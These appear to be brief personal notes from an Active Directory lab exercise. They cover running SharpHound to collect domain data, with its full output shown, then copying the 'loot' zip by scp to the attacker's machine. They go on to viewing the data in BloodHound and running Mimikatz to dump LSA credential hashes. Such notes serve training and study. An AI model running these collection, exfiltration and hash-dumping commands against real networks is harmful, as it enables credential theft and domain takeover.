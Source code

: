 ## Bloodhound
Install bloodhond and neo4j with apt

In powershell use ``. .\Downloads\SharpHound.ps1``

Loot
````
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
------------------------------------------------ 
Initializing SharpHound at 2:27 PM on 11/19/2021 
------------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL
PS C:\Users\Administrator> [+] Cache File not Found: 0 Objects in cache 

[+] Pre-populating Domain Controller SIDS 
Status: 0 objects finished (+0) -- Using 95 MB RAM 
Status: 66 objects finished (+66 8)/s -- Using 99 MB RAM 
Enumeration finished in 00:00:00.7080884 
Compressing data to C:\Users\Administrator\20211119142703_loot.zip 
You can upload this file directly to the UI

SharpHound Enumeration Completed at 2:27 PM on 11/19/2021! Happy Graphing! 
````

first enable ssh temporaly ``sudo sytemctl start ssh.socket``

then on remote machine get your loot

``scp .\20211119152332_loot.zip nair0lf32@10.8.226.203:/home/nair0lf32/loot.zip``

start neo4j ``sudo neo4j console`` or ``sudo neo4j start``

then ``bloodhound``

after login deploy hamurger menu and 'analysis'

## Mimikatz

Exit powershell with ``exit``

Go where it is and run mimikatz

``cd Downloads && mimikatz.exe``

``privilege::debug``
Should be ``Privilege '20' OK``

Then we dump hashes

``lsadump::lsa /patch``

